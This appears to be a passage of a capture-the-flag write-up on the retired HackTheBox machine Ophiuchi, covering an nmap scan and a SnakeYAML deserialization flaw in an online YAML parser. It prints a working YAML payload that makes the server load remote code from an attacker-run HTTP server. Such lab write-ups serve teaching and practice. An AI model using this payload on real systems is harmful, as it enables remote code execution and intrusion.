 Title:HTB: Ophiuchi
Date: xx-28-2021 10:00
category:security
tags:security, boot2root, HTB, Linux, YAML, deserialization, webassembly
meta:security, boot2root, HTB, Linux, YAML, deserialization, webassembly

<img class="align-left" src="/media/2021.xx/ophiuchi_card.png" alt="Ophiuchi card" width="262">


This is a writeup about a retired HacktheBox machine:
[Ophiuchi](https://www.hackthebox.eu/home/machines/profile/315) created by
[felamos](https://www.hackthebox.eu/home/users/profile/27390) and publish on
February 13, 2021.
This box is classified as a medium machine. The user part involves YAML and
deserialization as the root part involves webassembly binaries.



# User

## Reco

We start with an nmap scan. Only ports 22 (SSH) and 8080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sat Feb 20 04:02:47 2021 as: nmap -oN notes -sS -p- 10.129.98.255
    Nmap scan report for 10.129.98.255
    Host is up (0.014s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    8080/tcp open  http-proxy

    # Nmap done at Sat Feb 20 04:03:22 2021 -- 1 IP address (1 host up) scanned in 35.41 seconds


## Web

The web page is an Online YAML Parser. We quickly guess that this would be about
YAML deserialization. A few "random" data generate a Java stack trace indicating
the use of the Snake YAML library.

A Google search lead us to a
[medium article about exploiting YAML deserialization](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)

We run an python http server and use the following payload

    :::text
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.16:8000"]
      ]]
    ]
